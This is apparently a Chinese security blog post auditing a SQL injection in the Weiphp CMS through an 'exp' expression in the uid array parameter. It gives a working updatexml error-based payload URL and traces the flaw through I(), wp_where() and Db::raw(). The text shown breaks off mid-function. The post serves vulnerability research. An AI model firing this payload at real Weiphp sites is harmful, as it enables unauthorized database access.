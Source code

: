 ```yaml
---
title: "Weiphp exp表达式注入"
date: 2019-12-11T10:06:42+08:00
lastmod: 2019-12-11T10:06:42+08:00
draft: true
tags: ['php']
categories: ['代码审计']
comment: true
---
```


和thinkphp3.2.3的exp注入类似。



# payload

```
http://php.local/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=) and updatexml(1,concat(0x7e,user(),0x7e),1) -- +
```

# 分析

\app\home\controller\Index::bind_follow()

![20191211101117](https://y4er.com/img/uploads/20191211101117.png)

uid直接通过`I()`获取

```php
<?php
function I($name, $default = '', $filter = null, $datas = null)
{
    return input($name, $default, $filter);
}
```

然后经过 `wp_where()` -> `where()` -> `find()`函数

```php
<?php
$info = M('user_follow')->where(wp_where($map))->find();
```

跟进 `wp_where()`

```php
<?php
function wp_where($field)
{
    if (!is_array($field)) {
        return $field;
    }

    $res = [];
    foreach ($field as $key => $value) {
        if (is_numeric($key) || (is_array($value) && count($value) == 3)) {
            if (strtolower($value[1]) == 'exp' && !is_object($value[2])) {
                $value[2] = Db::raw($value[2]);
            }
            $res[] = $value;
        } elseif (is_array($value)) {
            if (strtolower($value[0]) == 'exp' && !is_object($value[1])) {
                $value[1] = Db::raw($value[1]);
            }
```